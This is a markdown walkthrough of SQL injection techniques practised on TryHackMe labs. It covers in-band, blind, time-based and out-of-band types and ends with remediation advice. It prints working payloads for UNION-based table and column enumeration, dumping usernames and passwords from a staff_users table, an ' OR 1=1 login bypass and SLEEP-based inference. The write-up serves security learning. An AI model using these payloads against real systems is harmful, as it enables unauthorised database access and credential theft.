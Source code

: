 # 🔥 SQL Injection Attacks on TryHackMe: A Complete Guide & Practical Walkthrough 🚀

* * *

## Introduction

SQL Injection (SQLi) is one of the most notorious web vulnerabilities that allows attackers to manipulate backend databases through unsafe user inputs. This report covers various types of SQLi attacks encountered and practiced on TryHackMe, including detailed practical steps and payload examples.

* * *

## 1️⃣ In-Band SQL Injection

> 
> 
> **The easiest and most common SQLi attack type** — using the same channel for injection and data retrieval.
> 

### 🟢 Types of In-Band SQLi:

- **Error-Based SQLi:**

Leverages database error messages displayed on the webpage to learn about database structure.

*Example:* Breaking the SQL query using `'` causes a syntax error revealing vulnerability.
- **Union-Based SQLi:**

Uses the `UNION` operator to combine results from the original query with attacker-controlled queries, extracting large datasets.

### ⚙️ Practical Steps & Payloads:

- Start by causing errors with input like:

    ```
    sqlCopyEdit1'
    ```
- Fix column count mismatch errors by adjusting UNION SELECT columns:

    ```
    sqlCopyEdit1 UNION SELECT 1,2,3
    ```
- Retrieve database name:

    ```
    sqlCopyEdit0 UNION SELECT 1,2,database()
    ```
- Enumerate tables:

    ```
    sqlCopyEdit0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
    ```
- Get columns of `staff_users` table:

    ```
    sqlCopyEdit0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
    ```
- Extract usernames and passwords:

    ```
    sqlCopyEdit0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
    ```

> 
> 
> 🎯 Goal: Access Martin’s password from the staff\_users table.
> 

* * *

## 2️⃣ Blind SQL Injection

> 
> 
> **No direct feedback from the application**, but attackers infer data through side channels.
> 

### 🔓 Authentication Bypass via Blind SQLi:

- Login forms usually check if username and password pair exists.
- Bypass login by injecting a query that always evaluates to true, e.g.:

    ```
    sqlCopyEdit' OR 1=1;--
    ```
- This tricks the database into authenticating the user without knowing real credentials.

### 🟡 Boolean-Based Blind SQLi:

- Responses are limited to boolean values like true/false or yes/no.
- Attackers systematically test payloads to infer database structure.

### 🛠 Practical Enumeration:

- Determine the number of columns using UNION SELECT with incremented columns:

    ```
    sqlCopyEditadmin123' UNION SELECT 1,2,3;--
    ```
- Discover database name character-by-character using LIKE with wildcards:

    ```
    sqlCopyEditadmin123' UNION SELECT 1,2,3 where database() like 's%';--
    ```
- Enumerate tables and columns similarly via `information_schema`.
- Find usernames and passwords by cycling through possible characters.

* * *

## 3️⃣ Time-Based Blind SQL Injection

> 
> 
> Similar to Boolean-based, but instead of visible responses, **response delay** indicates true or false.
> 

### ⏳ How it works:

- Use the `SLEEP(x)` function to cause delays if query is true:

    ```
    sqlCopyEditadmin123' UNION SELECT SLEEP(5),2;--
    ```
- If the server delays response by 5 seconds, the condition is true.
- Use this timing to enumerate database info slowly and stealthily.

* * *

## 4️⃣ Out-of-Band SQL Injection

> 
> 
> Rarer attack relying on features that enable **external data retrieval channels**.
> 

### How it works:

- Attack payload causes the database to make an HTTP/DNS request back to the attacker’s server.
- Requires specific server features or web app behavior.

* * *

## 🛡️ Remediation & Protection

1. **Prepared Statements with Parameterized Queries:**

Separate SQL code from user inputs to avoid injection.
2. **Input Validation:**

Allowlist inputs and sanitize/escape dangerous characters.
3. **Escaping User Inputs:**

Use proper escaping for special characters like `'`, `"`, `$`, `\` to prevent breaking queries.

| Attack Type             | Key Feature                          | Detection Method              | Example Payload                     |
| ----------------------- | ------------------------------------ | ----------------------------- | ----------------------------------- |
| In-Band (Error/Union)   | Direct feedback/errors shown on page | Cause SQL errors or use UNION | `1'`, `0 UNION SELECT 1,2,3`        |
| Blind SQLi (Boolean)    | True/False responses                 | Boolean inference             | `' OR 1=1;--`                       |
| Blind SQLi (Time-Based) | Response delay on true condition     | Timing attack                 | `UNION SELECT SLEEP(5),2;--`        |
| Out-of-Band             | Data sent via external channels      | Requires server callbacks     | Custom payloads triggering DNS/HTTP |

## 🙌 Final Notes
Practicing SQL Injection on TryHackMe helps build a strong foundation in web app security testing. Understanding and exploiting different SQLi types is essential for both attackers and defenders in cybersecurity.

Stay ethical and always test in authorized environments! 🛡️